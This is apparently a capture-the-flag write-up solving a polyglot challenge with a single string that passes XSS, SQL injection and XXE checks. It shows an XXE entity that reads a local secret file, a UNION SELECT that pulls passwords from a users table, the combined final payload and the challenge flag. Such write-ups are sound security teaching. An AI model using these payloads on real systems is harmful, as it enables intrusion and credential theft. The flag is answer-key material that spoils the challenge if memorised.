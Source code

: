 # A Payload To Rule Them All

This is a polyglot challenge. Unfortunately I don't have the challenge statement any more, but the only hint was to write an XSS/SQLi/XXE in a single payload. 

We know how each payload is parsed according to the [source](source)

XXE:     
``var doc = libxml.parseXml(payload, { noent: true ,nonet: true })``

XSS:     
``await page.goto(`data:text/html,<script>${payload}</script>`)``

SQLI:     
``const sqli = await query(`SELECT * from posts where id='${payload}'`)``

So the first thing I did was to run it locally on node, since the source was given.

Due to the logic at the end of the code:     
<details>
  <summary>Code Logic</summary>   
  
```
  Promise.all([xss,sqli]).then( function( values ){
                if ( values[0] && values[1] && xxe ) {
                        console.log("parabens hackudo")
                } else {
                        console.log("hack harder")
                }

                process.exit(0)
        })
	
}
```
   </details>

I found out that it is possible to declare `xss=true` and it will be rendered as having passed the XSS payload tester.

So I worked on the XXE, by using a typical payload to read the `xxe_secret` file shown in the source:     
`<?xml version="1.0" ?><!DOCTYPE abc [<!ENTITY xxe SYSTEM "file:///home/gnx/script/xxe_secret">`

This is a typical XXE payload I grabbed off the net and replaced with my own file path. And this likewise passed the XXE payload tester.

The hard part is the SQLi, which I got stuck for a long while due to a mistaken notion and *spaces*. So anyway I got the idea from a friend to just bruteforce it and came up with the following payload, which passed the SQLi payload tester:     

```
UNION SELECT password, 1, 2 FROM users; -- 
```     
*(The space at the end is important!!)*

We then combine the payloads into one like this, while bypassing the `sanitizeHTML` function using a random tag instead of script tag, and arranging the payload according to how it gets parsed:     
<details>
  <summary>Final Payload</summary> 
  
`<?xml version="1.0" ?><!DOCTYPE abc [<!ENTITY xxe SYSTEM "file:///home/gnx/script/xxe_secret"><!ENTITY lolwat SYSTEM "' UNION SELECT password, 1, 2 FROM users; -- '>">]><abc><b>";xss=true;//</b><foo>&xxe;</foo></abc>`
   </details>

And got the flag!
<details>
  <summary>FLAG</summary>   
  
  `CTF-BR{p4yl04d_p0lygl0ts_4r3_m0r3_fun_th4n_f1l3typ3s}`
   </details>
